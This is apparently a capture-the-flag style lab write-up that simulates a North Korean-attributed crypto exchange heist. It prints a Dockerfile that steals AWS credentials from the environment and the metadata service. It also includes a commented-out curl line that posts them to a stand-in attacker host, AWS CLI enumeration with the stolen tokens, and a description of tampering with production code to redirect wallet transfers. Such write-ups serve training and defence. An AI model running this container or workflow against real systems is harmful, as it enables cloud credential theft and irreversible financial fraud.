

# Lazarus Group (DPRK): Crypto exchange heist  

## TL;DR  

Inspired by what was recently shared about the Lazarus group and how threat hunters revealed their faces and some of their arsenal, this APT Lab just comes in the right time.  

Here are the key takeaways:  

- Token abuse.  

- IAM privilege escalation.  

- Targeted data exfiltration from a crypto trading environment.  

**Category:** Initial Access (TA0001), Credential Access (TA0006), Exfiltration (TA0010).  

Attack Scenario:

In Feb 2025, a [breach involving ByBit’s cloud infrastructure](https://www.reuters.com/technology/cybersecurity/cryptos-biggest-hacks-heists-after-15-billion-theft-bybit-2025-02-24/) allegedly led to unauthorized access to internal crypto wallet signing services. Attackers used misconfigured IAM policies, public-facing S3 buckets, and stolen session tokens to extract sensitive secrets from the cloud environment.  

    

## Initial Access

As mentionned at the start, the initial access is done via a malicious docker image that does the following:  

```yaml  
FROM alpine:latest

LABEL maintainer="attacker@example.com" description="Simulated AWS credential exfiltration container."
          
RUN apk add --no-cache bash curl
          
# Embed malicious script directly in Dockerfile
RUN echo '#!/bin/bash\n\
echo "[*] Extracting AWS credentials..."\n\
echo "AWS_ACCESS_KEY_ID=$AWS_ACCESS_KEY_ID" >> /tmp/.awscreds.log\n\
echo "AWS_SECRET_ACCESS_KEY=$AWS_SECRET_ACCESS_KEY" >> /tmp/.awscreds.log\n\
echo "AWS_SESSION_TOKEN=$AWS_SESSION_TOKEN" >> /tmp/.awscreds.log\n\
echo "[*] Attempting IMDS access..."\n\
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ >> /tmp/.awscreds.log || echo "[!] IMDS unreachable."\n\
# Placeholder for exfiltration (commented out for safety)\n\
# curl -X POST -d "@/tmp/.awscreds.log" http://attacker-server.com/collect\n\
echo "[*] Dumping credentials:"\n\
cat /tmp/.awscreds.log\n\
rm -f /tmp/.awscreds.log\n' > /entrypoint.sh && chmod +x /entrypoint.sh
          
# Run script on container start
CMD ["/bin/bash", "/entrypoint.sh"]
```  

- Uses Alpine Linux as base image.

- Installs bash and curl.

- Creates a script that runs automatically at container start.

- Reads AWS credentials from environment variables (AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, etc.).

- Saves the extracted credentials into a hidden file /tmp/.awscreds.log.

- Tries to access AWS Instance Metadata Service (IMDS) at 169.254.169.254 to steal IAM role credentials.

- (Commented-out) Contains code for exfiltrating stolen credentials to a remote attacker server.

- Prints the stolen credentials to stdout.

- Deletes the temporary credential log file.  

When our target executes the malicious Docker image, we get a hit back.

```bash  
AWS_ACCESS...: <REDACTED>

AWS_SECRET_...: <REDACTED>
      
AWS_SESSION...: <REDACTED>

S3 Bucket Name: pipeline49578
```

And we export the stolen creds:  

```bash  
salamnki@thinking:~$ export AWS_ACCESS...=<REDACTED>     
salamnki@thinking:~$ export AWS_SECRET_...=<REDACTED>
salamnki@thinking:~$ export AWS_SESSION_...<REDACTED>
```  

Which results in confirming we're in the context of the target `Developer`.  

```bash  

salamnki@thinking:~$ aws sts get-caller-identity
{
    "UserId": "<REDACTED>",
    "Account": "058264439561",
    "Arn": "arn:aws:iam::058264439561:user/<REDACTED>"
}
```  

Here are some of the **failed** enumeration attempts:  

```bash  
aws iam get-user

# List ALL users in account (if permission allows)
aws iam list-users

# List ALL roles
aws iam list-roles
```  

Now we have the username, the S3 Bucket name, so we'll aim at enumerating it.  

```bash  
alamnki@thinking:~/Documents/cwl$ aws s3 cp s3://pipeline49578/config.txt .
download: s3://pipeline49578/config.txt to ./config.txt           
salamnki@thinking:~/Documents/cwl$ cat config.txt 
# Configuration File for System Operations

# Receiver ID for data exfiltration
receiverId = <REDACTED>

# Source configuration
sourceIp = 192.168.1.1
sourcePort = 443
protocol = https

# Logging settings
logLevel = debug
logFilePath = /var/log/application.log

# AWS Credentials (Dummy)
awsAccessKey = AKIAEXAMPLEKEY
awsSecretKey = EXAMPLESECRETKEY
awsRegion = us-east-1

# Database Settings (Dummy)
dbHost = db.example.com
dbPort = 3306
dbUsername = admin
dbPassword = securepassword123

# API Settings (Dummy)
apiUrl = https://api.example.com/endpoint
apiKey = <REDACTED>

# Timeout Settings (Dummy)
connectionTimeout = 30
readTimeout = 60
retryCount = 3
```  

Here is what we have in our hands:  

We now an in-production database credentials, valid API url and key and application log file path.  

Now on our same operation, let's say we have access to the production source code of the application responsible for the crypto transfer from one account to another and we can alter it to serve our malicious purpose.  That's what comes in the second window:  

  

As shown above in the legit code, we can inject our ID so that the application sends us the amount instead of the hardcoded `const` ID and we inject the code to production. This will result in all traffic being rerouted to our wallet which is shown in the third and last window.  

### Final Flag  

In the last step of the lab, the left side is the targets' panel. It shows their budget, their wallet, the amount of money they're trying to send and the receiver.  

  

Although it seems like they're controlling the receiever, but not at all. In fact we have just pushed our wallet to the application's source code and all the transactions that'll take place will be redirected to us.  

  

### Conclusion  

This Lab show at the top lovel, how a whole attack chain on the entreprise's infrastructure can lead to very critical, expensive and irreversible damage.
